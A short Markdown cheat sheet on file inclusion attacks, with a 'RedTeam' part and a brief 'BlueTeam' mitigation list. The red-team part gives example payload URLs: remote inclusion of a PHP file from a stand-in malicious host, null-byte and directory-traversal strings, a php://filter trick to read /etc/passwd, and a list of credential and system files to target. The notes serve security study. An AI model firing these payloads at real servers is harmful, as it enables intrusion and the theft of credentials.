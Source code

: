 # RedTeam

## Remote File Inclusion

*--> Attacker uploads file from external source*

1. Inject remote file from own server
    - https://example.com/login.php?user=http://malware.bad/malicious.php
2. Inject malicious script
   - https://example.com/login.php?user=malicious.php

<br />

## Local File Inclusion

*>> Attacker retrieves file that already exists on hosting server*

*>> If LFI is existing, you can see the source code interpreted by the server*

#### Tips

1. Null Byte Attack
   - https://example.com/login.php?user=../../Windows/system32/cmd.exe%00
   - %00 terminates string to avoid adherence of specific extension (e.g. .php)
2. Base64 encoded
   - ?user=php://filter/read=convert.base64-encode/resource=/etc/passwd
   - Decode the response to get target output
3. Fuzzing via Burpsuite Intruder (Directory Traversal)
4. LFI Suite:
   - [https://github.com/D35m0nd142/LFISuite](https://github.com/D35m0nd142/LFISuite)

#### Files to check while enumerating LFI
- `../../../../../../../etc/passwd`
- `../../../../../../../home/<users>/.ssh/authorized_keys`
- `../../../../../../../home/<users>/.ssh/bash_history`
- To get the username of who we’re running as: `../../../../../../../proc/self/environ`
- To see what binary is running this service: `../../../../../../../proc/self/cmdline`
- index.php / config.php etc.

<br />

# BlueTeam

## Best Practice
- Input Validation (Whitelisting allowed file extensions)
- Exclude the directory separators “/” 
- Patch php version regularly
